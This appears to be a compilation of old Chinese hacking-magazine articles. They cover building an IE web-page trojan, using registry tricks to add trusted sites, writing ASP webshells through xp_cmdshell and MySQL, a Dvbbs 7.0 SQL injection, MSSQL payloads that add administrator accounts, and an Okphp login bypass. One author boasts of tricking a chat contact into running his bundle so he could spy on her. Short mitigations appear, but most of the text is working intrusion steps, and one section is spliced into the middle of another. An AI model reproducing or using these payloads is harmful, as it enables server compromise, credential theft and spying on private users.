第一，先来给大家说一下，如何具体制作和利用这段代码。如果你想根据此漏洞制作你自己的网页木马，只需将 exe 木马转换成十进制数字，替换这段代码里的那一堆数字就行了。如何得到 exe 程序的十进制数字呢？我使用了一个比较笨的办法。先用 UltraEdit 打开 exe 程序，会看到 exe 的十六进制代码，图 1。

图 1 中首行前 3 个是 4D、5A、90，那么再用 Windows 自带的计算器转换十进制为 77、90、144……这样一转换，就会得到 exe 的全部十进制数字了。制作时你可要注意，不要选用太大的 exe 文件，要不转换成十进制的工作累死你，网页木马执行的时候也会很慢。

第二，这段代码想要在 W2k/sp3/sp4 情况下测试成功，可以将你放在远程站点的网页木马所在远程站点加入 IE 的可信站点就可以了。像我将网页木马放在 http://haiyangtop.html.533.net/m.html 上，我只需打开 IE → Internet 选项 → 安全 → 可信站点 → 站点 → 添加，将此站点加入，图 2。

以后再打开此 URL 后，就可以成功运行代码中用十进制写的木马程序了。其实我们完全可以找 IE 的可信站点在注册表中的位置：

```reg
HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\你的域名
```

哈哈，明白了吗？如果要把 http://haiyangtop.html.533.net 加入可信站点，只需将以下数值写入注册表即可：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\533.net\haiyangtop.html]
"http"=dword:00000002
```

你可以根据你的域名，来设定不同的键值将这段代码修改一下。聪明人都知道为什么要研究可信站点在注册表中的位置。我也实际测试了一下，我将这段代码保存成了 1.reg，然后写了一个简单的批处理 1.bat：

```bat
regedit /s 1.reg

// regedit 加了 /s 参数，在导入注册表时就不会有提示了，会悄无声息地将 1.reg 所有内容导入注册表
```

然后我将 1.reg 和 1.bat 用 WinRAR 压缩了一个可执行文件（我想这一点很多人都会了，很多人看过网上那篇《永远不会被查杀的捆绑机》，所以这里的具体做法我就不介绍了），将其发给了我 QQ 上的一个 MM，骗她执行了，然后过一阵，我再将我放有网页木马的网址发给她，哈哈，MM 就在我面前没有隐私了……

第三点我要说的是，能不能将修改注册表和这段代码同时执行呢？当然可以！作者说他写了一段代码修改注册表将可信站点加入 IE 中，并且躲过所有杀毒软件，可是我在光盘里翻了上下五千年也没有找到这段代码，看来自作者给我们留了点悬念了。于是我只好自己写一个，代码例子是将 http://haiyangtop.html.533.net 放入 IE 的可信站点：

详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

不过我写的这段代码并不高明，会被杀毒软件查杀。人小本事微，只要将这段代码和利用 Adodb.Stream 制作的代码先后顺序放在一个网页中即可，一个新的网页木马就诞生了。当 IE 运行这两段代码时，先会修改注册表将你定义的网址加入可信站点，然后就会运行你的网页木马了。

最后，我要说一下这个网页木马的防范办法，微软给出了两点建议。

- 第一点是如果是个人用户的话，完全没有必要使用 Adodb.Stream 控件，所以可以从注册表 HKEY_CLASSES_ROOT\CLSID 找到 Adodb.Stream 键值将其删掉，其 CLSID 值为 {00000566-0000-0010-8000-00AA006D2EA4}。
- 第二点是想保留 Adodb.Stream 控件的话，请在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility 这个位置下新建项 {00000566-0000-0010-8000-00AA006D2EA4}，然后再建一个双字节 Compatibility Flags，其值为 00000400。

我的建议是首先系统升级到 W2k/sp4 或更高系统 + IE6.0 以上，这样修改注册表的网页木马自然就无效了；其次是升级杀毒软件到最新版本，及时防止利用这种漏洞所做的网页木马；第三是不要轻易运行陌生人发来的 QQ 附件或其他附件，对 HTML 格式的东西更要格外警惕。最后，老生常谈的是不去登录未知站点，尤其是域名具有诱惑性的站点，将 IE 的安全级别设高或默认，在有必要的情况下关闭 IE 的 ActiveX 脚本。

## 如何给远程服务器写入文件

文／郑云文


在入侵时发现服务器漏洞并获取较低权限后，常见思路是上传文件进一步控制。很多朋友使用 `echo` 写入文件（如注册表文件、脚本 Shell、FTP 参数、`sysocmgr` 参数等），但在远程服务器（尤其通过 SQL 注入或 WebShell）时，常因写入格式问题失败。本文演示如何在远端主机上正确写入文件。

实验服务器平台：Windows Server 2000、IIS 5、MSSQL Server 2000、MySQL 4.0.18 for Win。

### 1. 在本地使用 at 命令

例如建立 IPC 连接后，将 `"Test"=dword:00000000` 写入 `c:\temp.reg`。直接使用 `at \\192.168.1.109 18:01 echo ...` 往往失败，需严格按特定格式书写才能成功。

#### echo 的基本用法

`echo [on|off] [message]`

其中 `on|off` 用于控制命令回显；`message` 为显示文本。重定向时若内容包含 `>`、`<`、`|` 等特殊符号，需要使用转义字符；如需输出转义字符本身，通常需要双重转义。

```bash
at \\192.168.1.109 18:01 cmd.exe /c "echo \"Test\"=dword:00000000 >c:\\temp.reg"
```

如果不用双引号将命令包含进来，则重定向 `>` 不会在远程起作用；如果不加上 `cmd.exe /c`，则提示系统找不到指定文件，因为 `at` 把 `echo ***` 当作了 command 参数。

### 2. SQL 注入写文件

- （1）不含 `< > | & " + ' % #` 等特殊符号（或含有成对双引号）时，可以直接写入文件：

```sql
exec master.dbo.xp_cmdshell 'echo "Test"=dword:00000001>c:\\temp.reg'
```

- （2）更常见的是含有特殊符号的写入情况；如果不做数据转换通常写入不成功，转换对应如下：

| 字符 | 转换 |
|---|---|
| `^` | `%5E%5E` |
| `<` | `%5E%3C` |
| `>` | `%5E%3E` |
| `|` | `%5E%7C` |
| `&` | `%5E%26` |
| `"` | `%5E%22` |
| `'` | `''` 或 `%27%27` |
| `+` | `%2B` |
| `%` | `%25` |
| `#` | `%23` |

双引号若成对出现且不转换，则内部特殊字符只转换 ASCII 码且前面不加 `%5E`；建议将特殊字符全部转换，处理更方便。

例如，写入脚本 Shell（`cmd.asp`）：

```sql
exec master..xp_cmdshell 'echo *** > c:\\inetpub\\wwwroot\\cmd.asp'
exec master..xp_cmdshell 'echo *** >> c:\\inetpub\\wwwroot\\cmd.asp'
```

转换后的 `cmd.asp` 内容如下：

```asp
<%@ LANGUAGE="VBSCRIPT" %>
<%
On Error Resume Next
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
ccmmdd = Request.Form("CMD")
...
%>
```

```asp
If (ccmmdd<>"") Then
  szTempFile = "c:\\..."
  Call oScript.Run("cmd.exe /c " & ccmmdd & " > " & szTempFile, 0, True)
  Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0)
End If
...
<form action="..." method="POST">
<input type=text name="CMD" size=45 value="...">
<input type=submit value="Execute">
</form>
...
```

逐行复制到 URL 中，完成后效果如下：


### 3. 脚本 Shell 中写文件（以 cmd.asp 为例）

在网页 Shell（`cmd.asp`）中直接使用 `echo *** > filename` 写文件通常不成功；对普通可写目录可这样操作：

```bash
cmd.exe /c "echo \"Test\"=dword:00000000>c:\\temp.reg"
```

脚本 Shell 中输入的指令通常以低权限身份运行。若目录不可写，可通过其他方式获取管理员权限后继续操作。

首先在 `cmd.asp` 中让服务器跟自己建立 IPC 连接：

```bash
net use \\127.0.0.1\ipc$ "password" /user:"administrator"
net use z: \\127.0.0.1\c$
```

将 C 盘映射为 Z 盘；若无共享 `c$`，可先通过 `at` 与 `net share c$=c:\` 建立共享后再操作。（其实就是 C 盘）就可以像管理员一样读写了。

如果只写一两行的小文件的话，用下面命令即可：

```bash
at \\127.0.0.1 18:01 cmd.exe /c echo ***>filename
```

再逐行写入 Shell 文件，输入错误可以删除该行（`delete from tmp where ccmndd like "开始几个字母%"`）。

### 4. MySQL 弱密码入侵并写文件

从已安装 MySQL 的机器上（例如 `C:\mysql\bin`）复制一个 `mysql.exe` 到自己工作目录下，先建立连接：

```bash
mysql -h192.168.1.109 -uroot -p123456
mysql>use test;
```

创建一个临时表与文件（文件中双引号都要转换为两个双引号，`\` 转换为两个 `\\`，其他不变）：

```sql
mysql>create table tmp(ccmndd TEXT)
mysql>insert into tmp values("写入的文件行")
mysql>select * from tmp into outfile 'c:\inetpub\wwwroot\ccc.asp'
mysql>drop table tmp
```

如果网站路径没错的话，就得到一个网页 Shell 了；可以把 SQL 语句保存为 `sql.txt`，使用时直接导入执行：

```bash
mysql -h192.168.1.109 -uroot -p123456 < sql.txt
```

上面几类情况是我们在入侵中经常遇到的，如果能成功地往服务器上写入文件，上传、下载、执行都不是问题了。

---

## Access 原理文件——探测

文／AMANL

SQL Injection 持续演化，利用系统错误信息探测物理路径是常见方法。若得到路径，数据库与文件位置可能被暴露。文中给出通过报错信息推断 Access/MDB 路径与文件名的方法。

```sql
select * from news where id=3 union select * from admin in 'c:\Customers.mdb'
```

系统提示：Microsoft JET Database Engine 错误 `80004005`，找不到文件 `c:\Customers.mdb`。

```sql
select * from news where id=3 union select * from admin in 'c:\winnt\system32\cmd.exe'
```

系统提示：Microsoft JET Database Engine 错误 `80004005`，无法打开文件 `c:\winnt\system32\CMD.EXE`（被其他用户独占/无权限等）。

这种方式相比 `and 0<>(select count(*) from admin)` 更直观。若猜测路径和文件名正确，信息会正常返回；若目标并非 MDB 文件，则会出现“不可识别的数据格式”等提示。

执行：

```sql
select * from news where id=3 union select * from admin in 'e:\www\include\connect.asp'
```

返回：Microsoft OLE DB Provider for ODBC Drivers 错误 `80004005`；[Microsoft][ODBC Microsoft Access Driver] 不可识别的数据格式 `e:\www\include\connect.asp`。

由此可证明路径与文件名猜测正确。文章最后强调：应在程序层面对传入 SQL 进行严格过滤，统一返回错误信息并自定义错误页，减少可利用的报错线索。

---

## 把 DVBBS 7.0 拉下马

**脚本小子：** 动网论坛一直是国内非常权威的 ASP 中文论坛，而 Dvbbs7 更是众安全论坛中的明星。当动网 7 刚发布的时候，无数喜欢安全的朋友对它的源代码进行了分析，大多数朋友都得出了“非常安全”的结论。的确，动网 7 的安全性有很大提高，但是绝对没有任何 100% 安全的程序在网络中存在！动网 7 的最新漏洞足以证明这一点！


| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本入侵爱好者 |
| 前置知识 | SQL 注入基础知识 |
| 难度等级 | 中 |

◎ 文／图 firstsee

- 漏洞文件：AccessTopic.asp  
- 影响版本：Dvbbs7.0 任何版本 + MSSQL  
- 测试版本：Dvbbs7.0 + SP1 + MSSQL  
- 测试环境：Windows 2000 Advanced Server + SQL Server 2000  

```asp
If request("actiontype")=2 Then
  Set Rs=Dvbbs.Execute("select rootid from "&Dvbbs.NowUseBbs&" where parentid=0 And Announceid='"&id&"' and isroot=1")
  If not rs.eof And rs.bof Then
    Dvbbs.Execute("delete from dv_topic where topicid="&rs(0))
    Dvbbs.Execute("delete from " & Dvbbs.NowUseBbs & " where rootid="&rs(0))
    FoundID=rs(0)
  Else
    Dvbbs.Execute("delete from "&Dvbbs.NowUseBbs&" where Announceid='"&id)
    FoundID=0
  End If
End If
```

动网论坛 7.0 自从发布以来进一步扩大了其在 ASP 论坛领域的声誉和好评……为了找出它的漏洞，我就像大海捞针一样在茫茫代码中寻觅，蓦然回首，那漏洞却在灯火阑珊处，哈哈，请跟我来看看吧！

很明显，代码对 `request.form("Announceid")` 的值只进行了单引号过滤……在接下来的操作中涉及到字符串的部分为了便于理解，我保留了原文。行转换一下，除非特殊情况不作说明。

### 1. 发现新大陆

打开 AccessTopic.asp 文件，翻到第 200~212 行，内容为：

```asp
Sub deetopic()
...
For i=1 to request.form("Announceid").count
  ID=replace(request.form("Announceid")(i),"'","")
...
```

### 2. 动网论坛的小鞋

这个文件在动网论坛中是用于待审核帖子的操作的，发现漏洞的过程为删除待审核帖子（`request('actiontype')=2`），但是这项功能只有在开放某一个版面的帖子审核功能的时候才可能用到，而且只有版主才能使用，其标志变量为数据库中的 `Dv_Board.BoardSetting` 列第 4 个数。

由于此功能默认是关闭的，大部分论坛也不会用到，所以将其评为低危险程度的漏洞。在利用的时候我们可以想到 Access 数据库功能低下，也就没有什么利用价值了，因此这里只讨论使用 MSSQL 数据库的情况。

你可能会想，既然如此不就可以利用报错得到管理员密码的 MD5 密文了吗？这可就错了。在论坛中每一个 SQL 语句的执行都是通过 `Dvbbs.Execute` 这个过程来实现的，相关代码可以在 `inc\Dv_ClsMain.asp` 中找到，在这个过程中过滤了 `dv_admin` 关键字。起初我还想过用特殊方法去构造语句，但是全部失败，如果你有什么办法成功了可别忘记告诉我。

由于 `Announceid` 是用 `request.form` 取得，再利用时就要构造本地提交表单，其内容为：

```html
<form action='http://目标服务器地址及相对路径/accesstopic.asp?action=freetopic' method='post' name='batch'>
  <input type='hidden' value='1' name='boardid'>
  <input name='actiontype' value='2' type='hidden'>
  <textarea name='Announceid' cols='100' rows='20' id='Annouceid'></textarea>
  <input name='submit' value='执行' type='submit'>
</form>
```

只要在满足上述条件的情况下，将表单中的值设置好之后就可以往下看了。

### 3. 让我们知道自己的权力

在取得绝对路径之前先要判断当前数据库用户的权限。这里有个问题：无论我们提交的语句是否成立，只要不产生错误，返回信息都相同。解决方法是：将 `Announceid` 的值设置为一个已经存在的待审核帖子，提交成功后，如果这个帖子被删除就说明条件正确，否则就是错误。这里为了方便，假设每次执行都使用已存在的 `boardid=1` 帖子，大家可以多发几个帖子等着审核。

由于数据库所有权限中只有 SysAdmin 才有利用价值，所以只需判断它即可。打开刚才构造的表单，并在另一页面用该版版主账号登录，下面操作都在这种条件下完成。在 textarea 中填入：

```sql
1 and 1=(select is_srvrolemember('sysadmin'))
```

提交后根据上面提到的判断条件即可知道结果。

同样，也可以用此法判断是否存在 `xp_cmdshell` 存储扩展，提交语句为：

```sql
1 and 1=(select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')
```

如果没有该权限的话，就只能利用报错查看前台管理员密码，需要提交：

```sql
1 and 1=(select top 1 UserPassword from Dv_User where UserGroupID=1)
```

如果你想让自己在论坛里的权限提升，就去破解这个 MD5 密文吧——据说破出来可以去买彩票！在具有 SysAdmin 权限的情况下，就相当于得到了服务器绝对控制权，接着往下看利用方法。

### 4. 条条大路通罗马

现在首先需要在服务器上挂上 WebShell，以方便下一步完全控制。很多朋友用 `xp_regread` 读取注册表来获取 Web 绝对路径，但测试发现这种方法只能得到 Web 服务器安装时的默认路径；若管理员修改过该值，就会导致上传 Asp 木马失败。

换个思路：既然不能得到路径，那就在服务器上自己建一个虚拟目录。提交下面语句可实现：

```sql
;exec('master.dbo.xp_cmdshell ''cscript "C:\Inetpub\AdminScripts\mkwebdir.vbs" -c localhost -w "" -v "win" "c:\winnt\"''')
;exec('master.dbo.xp_cmdshell ''cscript "C:\Inetpub\AdminScripts\adsutil.vbs" set w3svc/4/root/win/AccessExecute True''')
```

这样就在默认服务器下建立了一个名为 `win` 的虚拟目录，其绝对路径为 `c:\winnt\`，并且具有执行动态脚本的权限。关于 `mkwebdir.vbs` 和 `adsutil.vbs` 的用法可参考 MSDN。现在可访问 `http://www.sitename.com/win/` 判断是否创建成功：返回 403 说明成功，返回 500 说明失败。

你也许会发现，使用 SQL Encoder 编码后提交语句从未成功，难道语句有错吗？如果在查询分析器里测试又能成功。问题出在数据类型转换上：在 MSSQL 中，`exec` 函数不能进行所需的数据类型转换，因此需要多一步操作。正确提交代码为：

```sql
1;declare @a nvarchar(255);
select @a=0x...（十六进制编码的命令串）...
exec(@a)
```

```sql
00/4003c0022002700;
exec(@a);
select @a=0x6400610073007400650072002e00640062006f002e00780070005f0063006d0064007300680065006c006c00200027006300730073007200690070007400200063003a005c0069006e00650074007000750062005c00610064006d0069006e0073006300720069007000740073002f006100640073007500740069006c002e0076006200730020007300650074002000770033007300760063002f00310020002f0072006f006f00740020002f00770069006e006400690072002f00770069006e0074002700;
exec(@a);
```

首先声明一个 `nvarchar(255)` 类型的变量，然后让赋值运算符去进行数据类型的转换。还有一点需要注意，在 MSSQL 中字符串内部的单引号要用两个单引号，但是在我们使用 SQL Encoder 进行编码的时候一定要坚持一个单引号的方针。执行表达式不能转换的数据类型交给赋值运算符。后面的代码中基本上都要用到这种方法，所以为了灵活运用一定要记住它。

也许你会遇到服务器没有 `xp_cmdshell` 的情况，而且这个时候还没有取得 Web 绝对路径，建立 Webshell 根本就无从谈起。遇到这种情况也不要气馁，我们还有另外的一种方法可以完成这项操作。提交下面的语句。

```sql
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',NULL,'cscript c:\inetpub\AdminScripts\mkwebdir.vbs -c localhost -w "1" -v "win" -r c:\winnt';
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',NULL,'cscript c:\inetpub\AdminScripts\adsutil.vbs set w3svc/1/root/win/AccessExecute True';
```

数据类型转换的问题可以利用刚才提到的方法去解决。一般的时候管理员很少会注意到 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展，你可以放心地去使用。

现在通往罗马的大路就在我们的面前，那就让我们跑起来吧！什么，你说开车更快点？哈哈。

### 5. 把跑车开上大路

知道了 Web 绝对路径以后，就可以写入 Webshell 了，据我所知有 5 种方法可以实现。

- 1. N.E.V.E.R. 的通过使用数据备份的方法，虽然有大量垃圾数据的产生，但是对权限的要求很低。
- 2. CZY 的使用 `sp_makewebtask` 存储扩展导出表中数据的方法，附加的数据量很少而且避免了使用 `xp_cmdshell` 存储扩展的情况。
- 3. 使用 `xp_cmdshell` 执行批处理的方法，这种方法比较实用，没有任何多余数据的写入问题。
- 4. 利用 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展执行批处理的方法。
- 5. 利用 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展调用 `scripting.filesystemobject` 对象进行文件的创建及写入操作，使用条件同上。

执行批处理的方法，使用的条件与 `xp_cmdshell` 相同，由于这种方法与（3）中几乎同出一辙就不再给出代码了。

在上述方法中给出的 Webshell 代码均是修改自海洋顶端的 `cmd.asp`，经过简化之后仅余 13 行关键部分。通过这个方法，我们就可以把 WebShell 写到服务器上了，下面的事就简单咯。

### 6. 把安全带系牢

你肯定发现了在数据库内的 System 权限在建立 Webshell 之后就成了 Guests 权限，这不是造成浪费了吗？为了继承勤俭节约的光荣传统，可以执行下面的 SQL 语句将浪费降低到最低的程度。

```sql
exec('master.dbo.xp_cmdshell ''net localgroup administrators IUSR_' + hostname() + ' /add''')
```

当然通过 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展也可以。关键在于灵活运用，因时制宜……

### 结束语

其实这个漏洞的修补非常简单，只要将代码中的：`ID=replace(request.form("Announceid")(),"'","")` 这一句改为下面的语句就可以了：

```vb
ID = request.form("Announceid")()
If isnumeric(ID) then
    ID = Clng(ID)
Else
    ID = 0
End if
```

千万不要小看 `isnumeric` 函数的作用，修补漏洞可全靠它呢！

俗话说盖一座大楼很困难，但是想拆掉它却很容易。如果想让自己设计的建筑更加牢固，就要更加完善地设计，即使细节部分也不能放过，以免由于疏忽而导致蚁穴丛生。对于软件来说，不仅仅是本身的坍塌，有可能会带来毁灭性的灾难，甚至危及整个服务器和服务器所在的网络。

### 结局

> 总体来说，这个漏洞是比较难利用的，不但需要很高的权限而且还需要开启帖子审核。但一旦出现漏洞利用的前提，攻击者也大可构造这样的条件……在动网如此普及的今天，任何一个微小的漏洞都可能导致网络上出现非常大的系统问题。

**脚本小子：**相信不少读者已经对 SQL Injection 很熟悉了，不过这篇文章有新花样，使用了 MS SQL 一些未公开使用方法的函数进行渗透，而且一些原来没有公开的技巧也已经在本文中有所提到，希望大家能真正掌握 SQL 注入的高级技术。

| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本入侵爱好者 |
| 前置知识 | SQL 基本语法 |
| 难度等级 | 高 |

## 榨干 MS SQL
### 最后一滴血


○ 文/amanl

风云变换的网络，网络安全让人们不得不关注。数据库让我们联想到 ORACLE、MS SQL。功能强大的 SQL 如果不重视安全，就会成为入侵者喜欢的目标。今天就用 SQL Injection 来让 MS SQL 为我们好好地工作。

相关的信息出来了，MS SERVER ADVANCED SERVER 2000+SP4，SQL 2000+SP3，从版本号 8.00.760 可看出是 SP3 补丁。看了服务器信息，接下来应该了解数据库权限。

```
语句：`http://www.xxx.com/list.asp?classid=1 and user_name()=dbo`

返回：正常返回的信息
```

相信大家对 SQL 暴库、暴表、暴字段都已掌握，这里不多谈。不熟悉的朋友可以查阅《跨库查询你想怎么玩》。

（下文测试全部在真实平台上进行，隐去测试站点详细信息。）

### MS SQL 内置函数介绍

| 函数 | 说明 |
|---|---|
| `@@VERSION` | 获得 Windows 版本号、MS SQL 版本号、补丁 |
| `User_name()` | 得到当前系统连接用户 |
| `Db_name()` | 得到当前连接的数据库 |
| `HOST_NAME()` | 得到当前主机名称 |

这些信息有助于我们对系统进行简单了解，下面开始。

```
语句：`http://www.xxx.com/list.asp?classid=1'`

返回信息：`Microsoft OLE DB Provider for SQL Server 错误 '80040e14'`，提示引号未闭合。
```

从未闭合引号可以确定存在 SQL Injection，接着利用上述函数展开测试。

```
语句：`http://www.xxx.com/list.asp?classid=1 and 0<>(select @@version)`

返回：数据库版本与系统版本相关错误回显（可见 SQL Server 版本信息）。
```

确定权限是 DBO。若连接用户涉及 SYSADMIN 服务器角色，通常默认在每个数据库增加一个 DBO 用户。原理与 `1=1`、`1=2` 类似，这里是权限测试。

```
语句：`http://www.xxx.com/list.asp?classid=1 and 0<>(select user_name())`

返回：类型转换错误（将 `dbo` 转为 int），用于判断权限。
```

说明连接数据库的用户权限较高，可能是服务器角色组成员。可用 `use model--` 测试默认数据库访问权限。

```
语句：`http://www.xxx.com/list.asp?classid=1;use model--`

返回：`ODBC SQL Server Driver` 报错，提示用户不是数据库 `model` 的有效用户。
```

说明没有权限。若正常返回或出现 OLE 多连接冲突信息，可确认权限在服务器角色组中。

```
语句：`http://www.xxx.com/list.asp?classid=1 and 0<>(select db_name())`

返回：类型转换错误（如 `xxxMGSys` 转 int），用于识别当前数据库名。
```

这样就可以暴出当前的数据库。得到这么高权限的数据库连接成员，我们当然想直接得到 WebShell，或是直接拿到 NT ADMIN。NT ADMIN 取决于当前服务器的配置，如果配置不合理的服务器，我们就可以直接拿 NT ADMIN 了。拿 NT ADMIN 要用到如下 MSSQL 内置存储过程。

- `sp_OACreate`（危险很大，但是需要有 SYSADMINS 权限才可以使用）
- `sp_OAGetErrorInfo`
- `sp_OAGetProperty`
- `sp_OAMethod`
- `sp_OASetProperty`
- `sp_SetProperty`
- `sp_OAStop`

以下介绍经常使用的存储过程的方法，没有介绍的请翻阅 MS SQL 帮助，里面有很详细的说明。用法：

```
Sp_OACreate(创建OLE对象实例)
sp_OACreate progid | clsid, objecttoken OUTPUT [, context]
```

如：`sp_oacreate 'scripting.filesystemobject', @o out`。注意 OUTPUT 是输出，创建一个 FILESYSTEMOBJECT 实例对象（详细说明请看 MS SQL 帮助）。

```
SP_OACreate(调用OACreate创建的对象)
```

调用 OLE 对象的方法，语法：

```
sp_OAMethod objecttoken,
    methodname
    [, returnvalue OUTPUT]
    [, [@parametername =] parameter [OUTPUT] [...]]
```

参数：`Objecttoken` 先前用 `sp_OACreate` 创建的 OLE 对象令牌；`Methodname` 要调用的 OLE 对象的方法名；`returnvalue OUTPUT` 该 OLE 对象的方法的返回值，如果指定，那么它必须是适当数据类型的局部变量。

由于 MS SQL 一次可以执行多语句，使得我们有机会使用更多的语句。

```
语句：http://www.xxx.com/list.asp?classid=1;DECLARE @shell INT EXEC SP_OACREATE 'wscript.shell', @shell OUTPUT;EXEC SP_OAMETHOD @shell,run,null,'C:\WINNT\system32\cmd.exe /c net user cntest chinatest /add'
```

正常返回。如果主机 Shell 存在的话，那将在服务器上创建一个 `cntest` 的用户！看样子是直接创建用户成功了，语句后再加个 `net localgroup administrators cntest /add` 加到管理员组中。如果对方的机子开着 3389 端口或 IPC 的话，那接下来的事就不用我多说了。

遇到专业型主机，只开一个 80 端口，那应该怎么办呢？当然，我们还是可以先拿到 WebShell，再慢慢渗透。由于权限高，我们可以先建表，写入 ASP 木马的数据再通过 MAKEWEBTASK，得到 WebShell。

手工写入的程序太过于繁琐，上传 WebShell 最大的问题还是网页目录。现在网上已经有现成的通过 BACKUP 和 MAKEWEBTASK 的工具得到 WebShell 了。以下推荐获取网页路径，通过存储过程达到对注册表读取的方法。

利用内置存储过程 `xp_regread`（读取注册表键值，权限 public），用法：

```
xp_regread [@rootkey=]'rootkey',
          [@key=]'key',
          [,@value_name=]'value_name']
          [,@value=]@value OUTPUT
```

利用 OUTPUT 赋值给变量，再写入相应的表中。

```
语句：http://www.xxx.com/list.asp?classid=1;CREATE TABLE newtable(id int IDENTITY(1,1),paths varchar(500));Declare @test varchar(20);exec master..xp_regread @rootkey='HKEY_LOCAL_MACHINE',@key='SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots',@value_name='/',@value=@test OUTPUT;insert into paths(path) values(@test);
```

IIS 的默认路径在注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots`，利用爆字段将数据库的值读出来。

```
语句：http://www.xxx.com/list.asp?classid=1 and 0<>(select top 1 paths from newtable)
返回 Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server] 将varchar值 'E:\www\201' 转换为数据类型为 int 的列时发生语法错误。
```

这说明网页目录在 `E:\www`，接下来也可以利用 FSO 直接写入 ASP 木马（提示：必须拥有 SYSADMIN 权限（服务器角色成员组）的前提下，才可使用 FSO 写入）：

```
语句：http://www.xxx.com/list.asp/class=1;declare @o int,@f int,@t int,@ret int exec sp_oacreate 'scripting.filesystemobject',@o out;exec sp_oamethod @o,'createtextfile',@f out,'e:\www\test.asp',1;exec @ret = sp_oamethod @f,'writeline',NULL,'On Error Resume Next';--
```

在 `E:\WWW` 下创建一个 `test.asp` 并写入 `On Error Resume Next` 语句。

```
http://www.xxx.com/list.asp/classid=1;declare @o int,@f int,@t int,@ret int;exec sp_oacreate 'scripting.filesystemobject',@o out;exec sp_oamethod @o,'opentextfile',@f out,'e:\www\test.asp',8;exec @ret=sp_oamethod @f,'writeline',NULL,'asp horse';--
```

在 `E:\WWW\test.asp` 增加一行记录，记录为 `asp horse`，整个完整木马可以这样写入（`%` 百分号要用 `%25` 替代写入）。如果得不到网页目录，怎么办呢？前提你要猜测网站是否使用默认 Web 站点，或者使用域名作为 Web 站点。

## 浅谈 PHP+MySQL 注射语句构造

## Okphp BBS v1.3 代码安全分析

由于 PHP 和 MySQL 本身的原因，PHP+MySQL 的注射要比 ASP 困难，尤其是注射时语句构造方面更难。本文主要借对 Okphp BBS v1.3 一些文件的简单分析，来谈谈 PHP+MySQL 注射语句构造方式，希望本文对喜欢 PHP 注入的你有帮助。

声明：文章所有提到的“漏洞”都没有经过测试，可能根本不存在；有心人可以自己测试。其实有没有漏洞并不重要，重要的是分析思路和语句构造。

版本信息：Okphp BBS v1.3 开源版，下载地址 http://www.cncode.com/SoftView.asp?SoftID=1800。下面正式开始漏洞之旅！

### 1. admin/login.php 注射导致绕过身份验证漏洞

```php
$conn=sql_connect($dbhost,$dbuser,$dbpswd,$dbname);
$password = md5($password);
$q = "select id,group_id from $user_table where username='$username' and password='$password'";
$res = sql_query($q,$conn);
$row = sql_fetch_row($res);
```

在 `$sql = "select id,group_id from $user_table where username='$username' and password='$password'"` 中，`$username` 和 `$password` 没过滤，很容易绕过。可利用逻辑运算或注释符（如 `#`、`/*`）构造注入语句。

`select * from $user_table where username='admin'#' and password='$password'`，相当于 `select * from $user_table where username='admin'`。

在 `admin/login.php` 中 `$sql` 语句里的 `$password` 先做了 `md5`，所以不适合直接用逻辑语句绕过；可通过注释语句构造：`select id,group_id from $user_table where username='admin'#' and password='$password'`。

如果不知道用户名，只知道 id，也可构造 `$username=' OR id=1#`，使查询条件满足，从而绕过验证。

```php
if ($row[0]) {
    // if not admin or super moderator
    if ($username != 'admin' && eregi("(^|&)(3)($|&)",$row[1])) {
        $login = 0;
    } else {
        $login = 1;
    }
}

if (!$login) {
    write_log("Moderator login","0","password wrong");
    echo "<script>alert('login failed');history.go(-1)</script>";
    exit();
} else {
    session_start();
}
```

### mkwebdir.vbs 用法

`mkwebdir.vbs` 是 IIS 系统自带的 VBS 管理脚本，详细说明可在命令模式下输入 `cscript.exe c:\inetpub\AdminScripts\mkwebdir.vbs`。

```sql
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'cscript.exe c:\inetpub\AdminScripts\mkwebdir.vbs -w 默认Web站点 -v "e:\"'
```

```sql
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'cscript.exe c:\inetpub\AdminScripts\chaccess.vbs -a w3svc/1/ROOT/e +browse'
```

在默认的 Web 站点下创建一个虚拟目录 E，指向 E 盘。给虚拟目录加上浏览属性后，可进一步配合后续 WebShell 利用。

呵呵，代码中最后只简单通过一个 `$login` 来判断，我们只要用 IE 直接提交 `$login=1` 就可以绕过了！低级错误。

### 2. users/login.php 注射导致绕过身份验证漏洞

代码：

```php
$md5password = md5($password);
$q = "select id,group_id,email from $user_table where username='$username' and password='$md5password'";
$res = sql_query($q,$conn);
$row = sql_fetch_row($res);
```

`$username` 没过滤，利用同 1，注释掉 `and password='$md5password'`，就绕过啦。

### 3. admin/log/list.php 存在任意删除日志记录漏洞

这个好像和 PHP+MySQL 注射无关。okphp 的后台好像写得很马虎，所有文件都没有判断管理员是否已经登录，以至于可以任意访问。我们看 list.php 的代码：

```php
$arr = array('del_log','log_id','del_id');
get_r($arr);
if ($del_log) {
  if ($log_id) {
    foreach ($log_id as $val) {
      $q = "delete from $log_table where id='$val'";
      $res = sql_query($q,$conn);
    }
  } elseif ($del_id) {
    $q = "delete from $log_table where id='$del_id'";
    $res = sql_query($q,$conn);
  }
}
```

